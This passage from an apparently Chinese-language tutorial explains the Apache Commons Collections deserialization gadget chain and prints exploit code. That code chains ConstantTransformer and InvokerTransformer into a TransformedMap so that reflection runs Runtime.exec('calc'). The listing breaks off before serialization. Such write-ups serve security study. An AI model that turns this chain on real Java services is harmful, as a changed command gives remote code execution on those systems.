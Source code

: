 而这里引入第二个transform接口实现类ConstantTransformer类
```java
构造方法
public ConstantTransformer(Object constantToReturn) {  
    super();  
    iConstant = constantToReturn;  
}

transform方法
public Object transform(Object input) {  
    return iConstant;  
}
```
构造方法是用变量iConstant存储一个传入的参数，transform方法则是无论传入的参数是什么，都只会返回iConstant
完美闭环，这下就完美解决setValue无法直接控制参数的问题
而Runtime无法直接序列化的问题则可以使用反射调用，而InvokeTransformer刚好可以进行反射，因此这个问题也能很好解决,并且刚好可以采用ChainedTransformer更加方便的链式联动调用每个InvokeTransformer反射的类，方法。
至此就可以写出exp
```java
package org.example;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
import org.apache.commons.collections.Transformer;  
  
  
import java.lang.annotation.Annotation;  
import java.lang.annotation.Target;  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Map;  
import java.io.*;  
import java.lang.annotation.Retention;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Map;  
  
// 按两次 Shift 打开“随处搜索”对话框并输入 `show whitespaces`，  
// 然后按 Enter 键。现在，您可以在代码中看到空格字符。  
public class Main {  
    public static void main(String[] args) throws Exception {  
        Transformer [] transformers = new Transformer[]{  
                new ConstantTransformer( Runtime.class),  
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),  
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),  
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})  
        };  
  
//        InvokerTransformer exp = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
//        exp.transform(runtime);  
        Map<Object, Object> expMap = new HashMap<>();  
        expMap.put("value", "test");  
        ChainedTransformer expTransformer = new ChainedTransformer(transformers);  
        Map<Object, Object> transformedMap = TransformedMap.decorate(expMap, null, expTransformer);  
  
//        Map.Entry<Object, Object> entry = transformedMap.entrySet().iterator().next();  
//        entry.setValue(runtime);  
```